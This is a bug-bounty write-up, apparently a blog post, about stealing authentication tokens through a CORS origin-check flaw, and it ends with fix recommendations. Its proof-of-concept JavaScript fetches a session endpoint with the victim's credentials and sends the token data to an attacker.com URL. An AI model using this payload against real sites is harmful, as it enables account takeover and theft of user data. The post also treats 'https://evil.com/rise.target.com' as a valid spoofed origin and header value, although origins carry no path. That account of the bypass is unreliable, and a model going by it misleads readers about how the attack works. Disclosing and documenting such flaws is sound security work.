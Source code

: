 ```yaml
---
title: Auth Token Theft via CORS Misconfiguration
description: "A critical CORS misconfiguration allowed stealing authentication tokens by abusing a wildcard-like origin match and Access-Control-Allow-Credentials: true."
date: 2025-03-08
tags:
  - cors
  - auth-token-theft
  - access-control
  - bug-bounty
  - web-security
summary: "A critical CORS misconfiguration allowed stealing authentication tokens by abusing a wildcard-like origin match and Access-Control-Allow-Credentials: true."
read_time: 3 minute read
---
```


# How a CORS Misconfiguration Could Have Let Me Steal Auth Tokens

In this post, I’ll walk you through a **CORS misconfiguration vulnerability** I discovered that allowed me to **steal authentication tokens**, **impersonate users**, and access sensitive data — all with a few lines of JavaScript. This bug stemmed from a subtle but dangerous CORS policy misconfiguration.

---

## 🧠 Background: What Is CORS?

**CORS (Cross-Origin Resource Sharing)** is a browser security feature that restricts how websites from one origin can interact with resources from another. If not configured properly, it can unintentionally expose APIs to malicious sites.

---

## 🚩 The Vulnerability

The API I tested had the following CORS behavior:

* It allowed any origin that **ended with** a trusted subdomain like `rise.target.com`
* It also responded with:

  ```
  Access-Control-Allow-Credentials: true
  Access-Control-Allow-Origin: https://evil.com/rise.target.com
  ```

That meant **any malicious domain** that crafted a similar subdomain (e.g., `https://evil.com/rise.target.com`) could **bypass origin checks** and access sensitive API responses.

---

## 🔬 Testing the Exploit

I hosted a malicious site at:

```
https://evil.com/rise.target.com
```

Then, I injected this simple payload:

```javascript
fetch("https://id.target.com/v1/session/rise/switch/", {
  method: "GET",
  credentials: "include" // Sends victim's cookies
})
.then(res => res.json())
.then(data => {
  // Exfiltrate session data to my server
  fetch("https://attacker.com/steal?data=" + encodeURIComponent(JSON.stringify(data)));
});
```

When a logged-in victim visited my page, their browser:

* Automatically sent their session cookie (`HERMES_ID`)
* The API accepted my domain (since it *looked* trusted)
* The response included **valid tokens and user metadata**
* The data was silently exfiltrated to my server

---

## 📸 Evidence

Here’s a look at what I received:

* ✅ Valid `access_token`
* 🧑‍💼 User profile information
* 🔐 Authenticated session context

![POC](/assets/writeups/2.png)

---

## 🛡️ Fix Recommendations

To fix this kind of issue, here’s what I recommended:

### 1. **Strict CORS Origin Checks**

Only allow exact origins:

```http
Access-Control-Allow-Origin: https://rise.target.com
```

Avoid dangerous patterns like:

```js
if (origin.endsWith('rise.target.com')) // ❌
```

### 2. **Secure Cookies with SameSite**

Use this to block cross-origin cookies:

```http
Set-Cookie: HERMES_ID=abc; Secure; HttpOnly; SameSite=Strict
```

### 3. **Avoid Allowing Credentials Loosely**

Only use:

```http
Access-Control-Allow-Credentials: true
```

...if you’re absolutely sure the origin is trusted.

---

## 🎯 Impact

This misconfiguration could allow:

* Complete **account takeover**
* Unauthorized **GraphQL or API access**
* Exploitation from **any malicious website** with a spoofed subdomain

---

## 🔚 Final Thoughts

CORS misconfigurations are subtle and often overlooked — but their impact can be critical. This vulnerability didn’t need a single line of backend code to be touched by the attacker. Just a cookie, a misconfigured header, and a clever origin were enough.

If you're building or reviewing APIs, **always test your CORS logic** under real attack scenarios. What seems safe on paper might leak tokens in practice.

---

💬 Have you seen similar CORS issues in the wild? Let's connect on [Twitter](https://twitter.com/00xmora), or [LinkedIn](https://linkedin.com/in/00xmora).

---